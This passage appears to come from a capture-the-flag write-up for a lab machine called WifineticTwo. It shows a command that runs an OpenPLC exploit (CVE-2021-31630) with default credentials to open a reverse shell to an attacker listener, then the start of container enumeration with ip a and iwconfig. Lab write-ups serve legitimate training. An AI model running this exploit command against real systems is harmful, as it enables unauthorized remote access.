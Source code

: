 Now let's **open a listener** and wait for a reverse shell:

```bash
python3 cve_2021_31630.py -u openplc -p openplc -lh 10.10.16.12 -lp 4444 http://10.10.11.7:8080
```

![](/assets/WifineticTwo/4.png)
<br />
<br />

------
<br />
### Privilege Escalation

It seems that we are in a **container**, enumerating the machine, we can find a **wireless interface**:

```bash
ip a
```

![](/assets/WifineticTwo/5.png)
<br />
<br />

Let's see what's the purpose of this interface:

```bash
iwconfig
```
